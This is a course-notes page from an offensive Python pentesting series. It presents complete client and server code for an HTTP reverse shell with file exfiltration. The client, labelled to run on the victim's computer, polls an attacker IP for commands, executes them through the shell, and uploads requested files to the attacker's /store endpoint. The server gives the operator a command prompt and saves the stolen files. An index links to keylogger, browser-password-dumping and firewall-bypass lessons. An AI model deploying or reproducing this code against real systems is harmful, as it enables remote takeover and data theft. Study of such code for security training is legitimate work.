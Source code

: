 ```yaml
---
title: Coding a data exfiltration script for a http shell
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - python
  - python pentesting
  - scripting
  - reverse shell
---
```


# Coding a data exfiltration script for a http shell

From course: [Python For Offensive PenTest: A Complete Practical Course](https://www.udemy.com/course/python-for-offensive-security-practical-course/).

??? abstract "General index of the course"
	- Gaining persistence shells (TCP + HTTP):
		- [Coding a TCP connection and a reverse shell](coding-a-tcp-reverse-shell.md).
		- [Coding a low level data exfiltration  - TCP connection](coding-a-low-level-data-exfiltration-tcp.md).
		- [Coding an http reverse shell](coding-an-http-reverse-shell.md).
		- [Coding a data exfiltration script for a http shell](coding-a-data-exfiltration-script-http-shell.md).
		- [Tunning the connection attempts](tunning-the-connection-attemps.md).
		- [Including cd command into TCP reverse shell](including-cd-command-into-tcp-reverse-shell.md).
	- Advanced scriptable shells:
		- [Using a Dynamic DNS instead of your bared attacker public ip](ddns-aware-shell.md).
		- [Making your binary persistent](making-your-binary-persistent.md). 
		- [Making a screenshot](making-a-screenshot.md). 
		- [Coding a reverse shell that searches files](coding-a-reverse-shell-that-searches-files.md). 
	- Techniques for bypassing filters: 
		- [Coding a reverse shell that scans ports](coding-a-reverse-shell-that-scans-ports.md). 
		- [Hickjack the Internet Explorer process to bypass an host-based firewall](hickjack-internet-explorer-process-to-bypass-an-host-based-firewall.md).
		- [Bypassing Next Generation Firewalls](bypassing-next-generation-firewalls.md).
		- [Bypassing IPS with handmade XOR Encryption](bypassing-ips-with-handmade-xor-encryption.md).
	- Malware and crytography:
		- [TCP reverse shell with AES encryption](tcp-reverse-shell-with-aes-encryption.md).
		- [TCP reverse shell with RSA encryption](tcp-reverse-shell-with-rsa-encryption.md).
		- [TCP reverse shell with hybrid encryption AES + RSA](tcp-reverse-shell-with-hybrid-encryption-rsa-aes.md).
	- Password Hickjacking:
		- [Simple keylogger in python](python-keylogger.md).
		- [Hijacking Keepass Password Manager](hijacking-keepass.md).
		- [Dumping saved passwords from Google Chrome](dumping-chrome-saved-passwords.md).
		- [Man in the browser attack](man-in-the-browser-attack.md).
		- [DNS Poisoning](dns-poisoning.md).
	- Privilege escalation:
		- [Weak service file permission](privilege-escalation.md).


## Client side

To be run on victim's computer.

```python
# Python For Offensive PenTest: A Complete Practical Course - All rights reserved 
# Follow me on LinkedIn  https://jo.linkedin.com/in/python2


import requests
import os
import subprocess
import time

while True:

    req = requests.get('http://192.168.0.152:8080')
    command = req.text
    if 'terminate' in command:
        break


# Now similar to what we have done in our TCP reverse shell, we check if file exisit in the first place, if not then we 
# notify our attacker that we are unable to find the file, but if the file is there then we will :-
# 1.Append /store in the URL
# 2.Add a dictionary key called 'file'
# 3.requests library use POST method called "multipart/form-data" when submitting files

#All of the above points will be used on the server side to distinguish that this POST is for submitting a file NOT a usual command output. Please see the server script for more details on how we can use these points to get the file


    elif 'grab' in command:
        grab, path = command.split("*")
        if os.path.exists(path): # check if the file is there
            url = "http://192.168.0.152:8080/store" # Appended /store in the URL
            files = {'file': open(path, 'rb')} # Add a dictionary key called 'file' where the key value is the file itself
            r = requests.post(url, files=files) # Send the file and behind the scenes, requests library use POST method called "multipart/form-data"
        else:
            post_response = requests.post(url='http://192.168.0.152:8080', data='[-] Not able to find the file!'.encode())
    else:
        CMD = subprocess.Popen(command, shell=True,stdin=subprocess.PIPE, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
        post_response = requests.post(url='http://192.168.0.152:8080', data=CMD.stdout.read())
        post_response = requests.post(url='http://192.168.0.152:8080', data=CMD.stderr.read())
    time.sleep(3)


```

## Server side

```python
# Python For Offensive PenTest: A Complete Practical Course - All rights reserved 
# Follow me on LinkedIn  https://jo.linkedin.com/in/python2


import http.server
import os, cgi

HOST_NAME = '10.0.2.15'
PORT_NUMBER = 8080

class MyHandler(http.server.BaseHTTPRequestHandler):

    def do_GET(self):

        command = input("Shell> ")
        self.send_response(200)
        self.send_header("Content-type", "text/html")
        self.end_headers()
        self.wfile.write(command.encode())

    def do_POST(self):

        #Here we will use the points which we mentioned in the Client side, as a start if the "/store" was in the URL then this is a POST used for file transfer so we will parse the POST header, if its value was 'multipart/form-data' then we will pass the POST parameters to FieldStorage class, the "fs" object contains the returned values from FieldStorage in dictionary fashion.

        if self.path == '/store':
            try:
                ctype, pdict = cgi.parse_header(self.headers.get('content-type'))
                if ctype == 'multipart/form-data':
                    fs = cgi.FieldStorage(fp=self.rfile, headers = self.headers, environ= {'REQUEST_METHOD': 'POST'})
                else:
                    print('[-]Unexpected POST request')
                fs_up = fs['file'] # Remember, on the client side we submitted the file in dictionary fashion, and we used the key 'file'
                with open('/home/kali/place_holder.txt', 'wb') as o: # create a file holder called 'placer_holder.txt' and write the received file into this 'place_holder.txt'. After the operation you need to rename this file to the original one, so the extention gets recognized. 
                    print('[+] Writing file ..')
                    o.write(fs_up.file.read())
                    self.send_response(200)
                    self.end_headers()
            except Exception as e:
                print(e)
            return
        self.send_response(200)
        self.end_headers()
        length = int(self.headers['Content-length'])
        postVar = self.rfile.read(length)
        print(postVar.decode())

if __name__ == '__main__':
    server_class = http.server.HTTPServer
    httpd = server_class((HOST_NAME, PORT_NUMBER), MyHandler)
    try:
        httpd.serve_forever()
    except KeyboardInterrupt:
        print ('[!] Server is terminated')
        httpd.server_close()


```